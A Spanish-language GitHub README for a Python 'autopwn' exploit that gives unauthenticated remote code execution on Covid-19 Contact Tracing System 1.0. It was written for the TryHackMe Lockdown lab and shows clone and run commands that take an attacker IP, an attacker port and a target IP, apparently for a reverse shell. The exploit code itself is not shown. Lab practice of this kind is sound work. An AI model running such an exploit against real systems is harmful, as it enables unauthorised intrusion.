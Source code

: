 # Covid19 Contact Tracing System 1.0 (Unauthenticated RCE)
Este es un exploit que use y mejoré para la máquina Lockdown de TryHackMe, te automatiza practicamente toda la intrusión mediante la subida de un fichero a la máquina. Para esto, obviamente la aplicación debe trabajar con el Contact Tracer, "Covid-19 Contact Tracing System 1.0".

## Motivos de la creación
* Practicar Python3 
* Hacer un script autopwn

## Instalación y uso
```bash 
$ git clone
$ cd Covid19-Contact-Tracing-System-1.0/
$ chmod +x covid19_contacttracer.py
$ python3 covid19_contacttracer.py <attacker-ip> <attacker-port> <target-ip>
```
**Nota:** si tienes propuestas para mejorar este script o cambiar cosas, hazmelas saber por favor... me ayudarías mucho ❤.
